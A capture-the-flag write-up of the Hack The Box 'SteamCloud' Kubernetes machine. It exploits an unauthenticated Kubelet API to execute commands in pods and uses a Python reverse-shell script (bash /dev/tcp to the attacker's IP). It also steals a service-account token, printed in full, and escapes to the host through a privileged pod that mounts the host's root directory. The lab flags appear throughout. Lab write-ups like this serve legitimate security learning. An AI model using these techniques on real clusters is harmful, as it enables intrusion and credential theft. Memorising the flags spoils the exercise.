





<p align="center">
  
</p>

---

- 🎯 **Target:** Hack The Box - SteamCloud Linux machine
- 🧑‍💻 **Author:** sonyahack1
- 📅 **Date:** 31.05.2025
- 📊 **Difficulty:** Easy
- 📁 **Category:** Web / Cloud
- 💻 **Platform:** Linux


---

## Table of Contents

- [Summary](#summary)
- [Reconnaissance](#%EF%B8%8F-reconnaissance)
- [Entry Point](#-entry-point)
- [Initial Access](#-initial-access)
- [Vertical Privilege Escalation](#-vertical-privilege-escalation)
- [Conclusion](#-conclusion)

---


## Summary


| Stage         | Info                                                      |
|---------------|-----------------------------------------------------------|
| Entry Point   | **nginx** pod with `default` namespace                    |
| User Flag     | `flag {9742e7336fab726077efb695eb15f3c9}`                 |
| Root Flag     | `flag {9d97eb6e8f8eeb67c01d0f38934cb755}`                 |

---

> Adding ip address to /etc/hosts:

```bash

echo "10.10.11.133 steamcloud.htb" | sudo tee -a /etc/hosts

```

---
## 🕵️ reconnaissance

> I start scanning for open ports and services:

```bash

nmap -sVC -p- -vv -T5 steamcloud.htb -oN steamcloud_nmap_tcp

```
> Result:

```bash

22/tcp    open  ssh              syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
2379/tcp  open  ssl/etcd-client? syn-ack ttl 63
2380/tcp  open  ssl/etcd-server? syn-ack ttl 63
8443/tcp  open  ssl/http         syn-ack ttl 63 Golang net/http server
10249/tcp open  http             syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API) (Kubernetes server)
10250/tcp open  ssl/http         syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API) (Kubelet API)
10256/tcp open  http             syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)

```
> This set of open ports (`10250`, `10249`, `10256`, etc.) indicates that the target system is part of the `Kubernetes` infrastructure.
> These ports correspond to various components of the cluster, such as:
- `kubelet` (10250) - pod management agent on the node,
- `kube-proxy` (10249, 10256) - network proxy and load balancer,
- `etcd` (2379, 2380) - distributed storage of cluster state.

> I am interested in open port `10250` because it is used by `Kubelet API` and can provide information about `pods` running on the node.

> `Kubelet API` is an agent running on each node that manages pods and interacts with `Kubernetes API server`. This agent listens on port `10250`
> and access to its API for interaction with pods requires authentication (token or certificate) or RBAC authorization.
> But if the `10250` port is accessible from the external network and the authentication process is poorly configured (for example, kubelet with the `--anonymous-auth=true` flag), then this creates a
> serious vulnerability that allows you to directly send requests to this API without authentication and perform actions on behalf of the node: **view the list of pods**,
> **get logs**, **execute commands in containers**, etc.

> In this case, I can interact with running pods on the node through the `Kubelet API` component using endpoints such as: `/pods`, `/logs`, `/exec`, `/run`, etc.
> without any restrictions.

> I'll make a request to the `/pods` endpoint and display a list of available pods running on a specific `Kubernetes` node:

```bash

http://steamcloud.htb:10250/pods

```
> Result:



> I change the protocol to `https` and repeat the request:



> I get a list of available pods running on the current `Kubernetes` node

> For convenience, I will use a special utility `kubeletctl` to display all the information in the form of a convenient table:

```bash

kubeletctl --server steamcloud.htb pods

```

> Result:



> Ok. I get a table with all pods, their namespace and running containers in them. **This will be the entry point**.

---
## 🚪 Entry Point

> From the list of running pods I see system pods and one `default` - that is, a user pod (usually)

> **Note:** `namespace` is a group that plays the role of resource sharing within a single `Kubernetes` cluster. In essence, this is isolation
> with access sharing. Pods running in the `kube-system` namespace are usually protected and limited for interaction - they do not have `stdin` and `tty`.
> Pods running in the `default` namespace, on the contrary, are often user pods and allow interactive execution of commands and allow interaction with them.

> I will check the vulnerability of the `Kubelet API` via a `websocket` connection using the `/exec` endpoint (**/exec only works via websocket**):

```bash

echo -ne '\x00id\n' | websocat \
  -H="Origin: https://steamcloud.htb" \
  -H="Sec-WebSocket-Protocol: v4.channel.k8s.io" \
  --binary \
  --insecure \
  "wss://steamcloud.htb:10250/exec/kube-system/kube-controller-manager-steamcloud/kube-controller-manager?command=bash&input=1&output=1&tty=1"

```

> Result:

```bash

OCI runtime exec failed: exec failed: container_linux.go:344: starting container process caused "exec: \"bash\": executable file not found in $PATH": unknown
{"metadata":{},"status":"Failure","message":"command terminated with non-zero exit code: Error executing in Docker Container: 126","reason":"NonZeroExitCode",
"details":{"causes":[{"reason":"ExitCode","message":"126"}]}}

```
> `exec: \"bash\": executable file not found in $PATH": unknown`. This means that the **kube-controller-manager** container does not have a `bash`
> shell and cannot execute the `id` command.

> I try to send the same command to the `nginx` container running on the `nginx` pod in the `default` namespace:

```bash

echo -ne '\x00id\n' | websocat \
  -H="Origin: https://steamcloud.htb" \
  -H="Sec-WebSocket-Protocol: v4.channel.k8s.io" \
  --binary \
  --insecure \
  "wss://steamcloud.htb:10250/exec/default/nginx/nginx?command=bash&input=1&output=1&tty=1"

```
> Result

```bash

root@nginx:/# id
uid=0(root) gid=0(root) groups=0(root)
root@nginx:/# 

```
> Ok. The `nginx` container has a `bash` shell which means I can connect to that container.

---
## 🔓 Initial Access

> Based on the previous command, based on a `websocket connection`, I will write a simple python script to create a reverse shell to the nginx container:

```python

import websocket
import ssl

def on_open(ws):
    rev_shell = "/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'\n"
    ws.send(b"\x00" + rev_shell.encode())

ws = websocket.WebSocketApp(
    "wss://steamcloud.htb:10250/exec/default/nginx/nginx?command=sh&input=1&output=1&tty=1",
    on_open=on_open,
    header={
        "Origin": "https://steamcloud.htb",
        "Sec-WebSocket-Protocol": "v4.channel.k8s.io"
    }
)

ws.run_forever(sslopt={"cert_reqs": ssl.CERT_NONE})

```
> start listener:

```bash

nc -lvnp 1337

```
> I run the script and get a shell to the container:

```bash

 nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.133] 33494
root@nginx:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@nginx:/# hostname
hostname
nginx
root@nginx:/#

```
> I get first flag:

```bash

root@nginx:/# cd /root
cd /root
root@nginx:~# ls -lah
ls -lah
total 16K
drwxr-xr-x 2 root root 4.0K Jun  2 19:29 .
drwxr-xr-x 1 root root 4.0K Jun  2 17:05 ..
-rw------- 1 root root   43 Jun  2 19:29 .bash_history
-rw-r--r-- 2 root root   33 Jun  2 17:04 user.txt
root@nginx:~# cat user.txt
cat user.txt
9742e7336fab726077efb695eb15f3c9
root@nginx:~#

```

> user flag: `9742e7336fab726077efb695eb15f3c9`

---
## 🧍⬆️🧑‍💼 Vertical Privilege Escalation


> I execute `Kubernetes enumeration` in the **nginx** container. I'm looking for tokens, configs, etc.


```bash

ls -lah /var/run/secrets/kubernetes.io/serviceaccount

```
> Result:

```bash

drwxrwxrwt 3 root root  140 Jun  3 18:58 .
drwxr-xr-x 3 root root 4.0K Jun  3 18:58 ..
drwxr-xr-x 2 root root  100 Jun  3 18:58 ..2025_06_03_18_58_02.578716482
lrwxrwxrwx 1 root root   31 Jun  3 18:58 ..data -> ..2025_06_03_18_58_02.578716482
lrwxrwxrwx 1 root root   13 Jun  3 18:58 ca.crt -> ..data/ca.crt
lrwxrwxrwx 1 root root   16 Jun  3 18:58 namespace -> ..data/namespace
lrwxrwxrwx 1 root root   12 Jun  3 18:58 token -> ..data/token

```

```bash

root@nginx:/var/run/secrets/kubernetes.io/serviceaccount# cat token

eyJhbGciOiJSUzI1NiIsImtpZCI6IjRMZ0V0TlF4b0w0dkNEQmNobTJiNmJKTE0yYVhHUUlGc.......

root@nginx:/var/run/secrets/kubernetes.io/serviceaccount# cat ca.crt

-----BEGIN CERTIFICATE-----
	...
	...
	...
-----END CERTIFICATE-----

```

> Found a token and certificate for the current pod's service account in the `default` namespace. These credentials allow us to authenticate to the `Kubernetes API` and perform actions on behalf of this service account.

> saving the token and certificate:

```bash

 KUBER_TOKEN=eyJhbGciOiJSUzI1NiIsImtpZCI6IjRMZ0V0TlF4b0w0dkNEQmNobTJiNmJKTE0yYVhHUUlGcnBLUFV4NW5LdVkifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjLmNsdXN0ZXIubG9jYWwiXSwiZXhwIjoxNzgwNTE1NzIzLCJpYXQiOjE3NDg5Nzk3MjMsImlzcyI6Imh0dHBzOi8va3ViZXJuZXRlcy5kZWZhdWx0LnN2Yy5jbHVzdGVyLmxvY2FsIiwia3ViZXJuZXRlcy5pbyI6eyJuYW1lc3BhY2UiOiJkZWZhdWx0IiwicG9kIjp7Im5hbWUiOiJuZ2lueCIsInVpZCI6Ijk5YjZiZjdiLWQ1ODItNDA0Zi05YjZiLTEzYjg4ZjNlZTU0ZCJ9LCJzZXJ2aWNlYWNjb3VudCI6eyJuYW1lIjoiZGVmYXVsdCIsInVpZCI6IjgxYWM5M2Y1LTRlMTAtNDBhNy1iYTZhLTllZDBkNWNiZjVlZSJ9LCJ3YXJuYWZ0ZXIiOjE3NDg5ODMzMzB9LCJuYmYiOjE3NDg5Nzk3MjMsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDpkZWZhdWx0OmRlZmF1bHQifQ.HJED8NozsB-Kp04wsqq6c3w9NmP60uzN-McfJ-H_du5NDHKbzBShwZxBT-tv1qjpM7rjIeSQkQgj5VwG5hVJuRwyRaQ0xzNJ868H6QX5t_lMPE_6LcEGj_KhEPAddTe7GsPj2iXoyKyJc9YfV8q_QUJ8xb86w7pMzcdcwm5Mmr9fsjJQHW_az_kc4NVhiDBzDw3_kF6UEfsJlGPfxfA39LNrTV157xbO-PLaGsOKQMk50hB7jQJJZUIEOO32gyj5FmUD5ISKvHOc1wV4l8ophpK2fKA6eKHGgtHBjzjJSV-Er02xlo6r0hFOVr0fkAucmNFhZ1WcZIxqhSq70WNIgw

```

> I use `kubectl` utility to work with `kubernetes server` and list pods for the current namespace (default):

```bash

 kubectl \
  --server=https://10.10.11.133:8443 \
  --token=$KUBER_TOKEN \
  --certificate-authority=./pod-cert \
  get pods

NAME      READY   STATUS    RESTARTS   AGE
nginx     1/1     Running   0          3m53s

```
> I see that the pod `nginx` is running in the current **namespace** (default). Ok

> I'll see if I have the right to create my own pod by substituting the argument `auth can-i create pods`:

```bash

kubectl \
  --server=https://10.10.11.133:8443 \
  --token=$KUBER_TOKEN \
  --certificate-authority=./pod-cert \
  auth can-i create pods

yes

```
> `yes`. I have the right to create and run my own pod.

> **Note:** The idea is to deploy my own pod with an arbitrary image (e.g. `nginx`), but with the host directory (`/`) mounted
> to the container file system. Having access to such a container, I also get direct access to the `host system`, on which the `Kubernetes node` runs.

> To create such a pod, I use a template from the `hacktricks resource`:

[hacktricks_pod](https://cloud.hacktricks.wiki/en/pentesting-cloud/kubernetes-security/kubernetes-enumeration.html?searchbar=kubeconfig.yaml)



> I remove unnecessary parameters and make sure to specify the namespace in which the pod will be created.
> This is necessary because the pod can only be deployed in the `namespace` to which I have access via the `Kubernetes API` (using a token and certificate).

```bash

apiVersion: v1
kind: Pod
metadata:
  name: nginx-2
  namespace: default
spec:
  hostNetwork: true
  containers:
    - name: nginx-2
      image: nginx:1.14.2
      securityContext:
        privileged: true
      volumeMounts:
        - mountPath: /root
          name: noderoot
  volumes:
    - name: noderoot
      hostPath:
        path: /
  automountServiceAccountToken: true

```

> Next using `kubectl` I create and run my pod:

```bash

kubectl \
  --server=https://10.10.11.133:8443 \
  --token=$KUBER_TOKEN \
  --certificate-authority=./pod-cert \
  apply -f privilege-pod.yaml

pod/nginx-2 created

```
> I check that the pod was created and started correctly without errors by substituting the argument `get pods`

```bash

kubectl \
  --server=https://10.10.11.133:8443 \
  --token=$KUBER_TOKEN \
  --certificate-authority=./pod-cert \
  get pods

NAME      READY   STATUS    RESTARTS   AGE
nginx     1/1     Running   0          7m32s
nginx-2   1/1     Running   0          3m43s

```
> Okay. The pod is up and running. I follow the same principle as when I first accessed the `nginx` pod - I take the same python script, change the address to
> my pod and container (`nginx-2/nginx-2`) and send a request:

```python

import websocket
import ssl

def on_open(ws):
    rev_shell = "/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.10/1337 0>&1'\n"
    ws.send(b"\x00" + rev_shell.encode())

ws = websocket.WebSocketApp(
    "wss://steamcloud.htb:10250/exec/default/nginx-2/nginx-2?command=sh&input=1&output=1&tty=1",
    on_open=on_open,
    header={
        "Origin": "https://steamcloud.htb",
        "Sec-WebSocket-Protocol": "v4.channel.k8s.io"
    }
)

ws.run_forever(sslopt={"cert_reqs": ssl.CERT_NONE})

```
> Result:

```bash

nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.133] 57872

root@steamcloud:/# ls -lah /root
ls -lah /root
total 68K
drwxr-xr-x  18 root root 4.0K Dec  1  2021 .
drwxr-xr-x   1 root root 4.0K Jun  3 19:45 ..
lrwxrwxrwx   1 root root    7 Nov 30  2021 bin -> usr/bin
drwxr-xr-x   3 root root 4.0K Nov 30  2021 boot
drwxr-xr-x  16 root root 3.1K Jun  3 19:40 dev
drwxr-xr-x  75 root root 4.0K Jan 10  2022 etc
drwxr-xr-x   3 root root 4.0K Nov 30  2021 home
lrwxrwxrwx   1 root root   31 Nov 30  2021 initrd.img -> boot/initrd.img-4.19.0-18-amd64
lrwxrwxrwx   1 root root   31 Nov 30  2021 initrd.img.old -> boot/initrd.img-4.19.0-14-amd64
lrwxrwxrwx   1 root root    7 Nov 30  2021 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Nov 30  2021 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Nov 30  2021 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Nov 30  2021 libx32 -> usr/libx32
drwx------   2 root root  16K Nov 30  2021 lost+found
drwxr-xr-x   3 root root 4.0K Nov 30  2021 media
drwxr-xr-x   2 root root 4.0K Nov 30  2021 mnt
drwxr-xr-x   5 root root 4.0K Jan 10  2022 opt
dr-xr-xr-x 205 root root    0 Jun  3 19:39 proc
drwx------   4 root root 4.0K Jun  3 19:41 root
drwxr-xr-x  20 root root  620 Jun  3 19:41 run
lrwxrwxrwx   1 root root    8 Nov 30  2021 sbin -> usr/sbin
drwxr-xr-x   2 root root 4.0K Nov 30  2021 srv
dr-xr-xr-x  13 root root    0 Jun  3 19:39 sys
drwxrwxrwt  10 root root 4.0K Jun  3 19:50 tmp
drwxr-xr-x  14 root root 4.0K Nov 30  2021 usr
drwxr-xr-x  11 root root 4.0K Nov 30  2021 var
lrwxrwxrwx   1 root root   28 Nov 30  2021 vmlinuz -> boot/vmlinuz-4.19.0-18-amd64
lrwxrwxrwx   1 root root   28 Nov 30  2021 vmlinuz.old -> boot/vmlinuz-4.19.0-14-amd64
root@steamcloud:/#

```
> Got a shell to my container. As you can see the host part (`/`) is mounted inside the container.

> Accordingly I can simply go to the host and take the root flag:

```bash

root@steamcloud:~# cd /root/root
cd /root/root
root@steamcloud:~/root# ls -lah
ls -lah
total 28K
drwx------  4 root root 4.0K Jun  3 19:41 .
drwxr-xr-x 18 root root 4.0K Dec  1  2021 ..
lrwxrwxrwx  1 root root    9 Nov 30  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-x---  3 root root 4.0K Nov 30  2021 .kube
drwxr-xr-x 10 root root 4.0K Nov 30  2021 .minikube
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Jun  3 19:41 root.txt
root@steamcloud:~/root# cat root.txt
cat root.txt
9d97eb6e8f8eeb67c01d0f38934cb755
root@steamcloud:~/root#

```

> root flag: `9d97eb6e8f8eeb67c01d0f38934cb755`


---
## 🧠 Conclusion


<p align="center">
  
</p>

---

